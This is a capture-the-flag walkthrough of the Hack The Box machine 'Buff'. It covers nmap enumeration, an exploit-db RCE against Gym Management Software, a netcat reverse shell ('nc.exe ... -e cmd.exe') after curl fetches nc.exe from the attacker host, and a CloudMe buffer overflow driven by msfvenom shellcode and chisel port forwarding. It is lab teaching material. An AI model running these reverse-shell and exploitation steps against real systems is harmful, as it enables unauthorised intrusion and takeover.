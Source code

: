 # Buff

![cover](images/cover.png)

Buff is an easy box that involved an RCE php web shell exploit, uploading netcat to the box to get a proper shell and finding the user flag. Getting Administrator involved exploiting a CloudMe service through port forwarding.

# Overview
- Enumeration of the target
- Discovering the website software and finding an exploit
- Using the exploit to upload netcat and get a reverse shell
- user.txt
- Exploiting CloudMe through port forwarding to get Administrator
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~/htb/buff$ nmap -sC -sV -Pn 10.10.10.198
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.198
Host is up (0.028s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.75 seconds
```

All we see is a website on port 8080, let's take a look.

## Website

![website](images/website.png)

We can see a fitness website. If we take a look around the pages, we can see what software is being used on the contact page.

![contact](images/contact.png)

It's using Gym Management Software 1.0, after searching online, we find a webshell exploit on [exploit-db](https://www.exploit-db.com/exploits/48506).

# Exploitation

## Webshell

We can run the program with the address of the website to get a webshell.

```bash
finlay@kali:~/htb/buff$ python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

## Reverse shell

Now we can upload netcat to the box and use it to get a reverse shell.

First, start a web server locally with `nc.exe` in the same directory.

```bash
finlay@kali:~/htb/buff$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then, use curl on the webshell to download `nc.exe`.

```powershell
C:\xampp\htdocs\gym\upload> curl 10.10.14.19:8000/nc.exe -o nc.exe
```

Then, setup a listener locally:

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, execute netcat:

```bash
C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.19 4444 -e cmd.exe
```

And we see that we got a connection to our listener:

![user_shell](images/user_shell.png)

## User.txt

And we find the flag in C:\Users\shaun\Desktop

![user_flag](images/user_flag.png)

# Privilege Escalation

After searching around on the box, we find `CloudMe_1112.exe` in the Downloads folder, we can exploit this to get Administrator. We need to download the exploit from [exploit-db](https://www.exploit-db.com/exploits/48389).

To use this exploit, we need to create the payload in shellcode, I used msfvenom to do this.

```bash
finlay@kali:~/htb/buff$ msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.19 5555' -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 273 (iteration=0)
x86/shikata_ga_nai chosen with final size 273
Payload size: 273 bytes
Final size of python file: 1452 bytes
payload =  b""
payload += b"\xbb\x8e\x9d\x9f\x1c\xda\xd9\xd9\x74\x24\xf4\x58"
payload += b"\x29\xc9\xb1\x3e\x83\xe8\xfc\x31\x58\x10\x03\x58"
...
```

Now we can insert this into the exploit from exploit-db instead of the one there.

Next, we need to setup port forwarding on the target so we can run the script. I did it using chisel, first you need to setup a chisel server locally.

```bash
finlay@kali:~/htb/buff$ ./chisel server -p 8080 -reverse
2020/11/20 15:23:18 server: Reverse tunnelling enabled
2020/11/20 15:23:18 server: Fingerprint lSUQvDZyfhHoCrL3ekB/eGcLRkBSVoDqEyGuWi2zFv8=
2020/11/20 15:23:18 server: Listening on http://0.0.0.0:8080
```

Then we connect to the server from the target, which will port forward when we run the python script.

```cmd
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.19:8080 R:8888:127.0.0.1:8888
chisel.exe client 10.10.14.19:8080 R:8888:127.0.0.1:8888
2020/11/20 20:33:41 client: Connecting to ws://10.10.14.19:8080
2020/11/20 20:33:41 client: Connected (Latency 29.7535ms)
```

Then we setup a listener locally on the same port that we specified when we made the payload:

```bash
finlay@kali:~$ nc -nvlp 5555
listening on [any] 5555 ...
```

Finally, we run the exploit.

```bash
finlay@kali:~/htb/buff$ python privesc.py
```

And we see that we got a connection on our listener:

![admin_shell](images/admin_shell.png)

## Root.txt

And we find the flag in C:\Users\Administrator\Desktop

![admin_flag](images/admin_flag.png)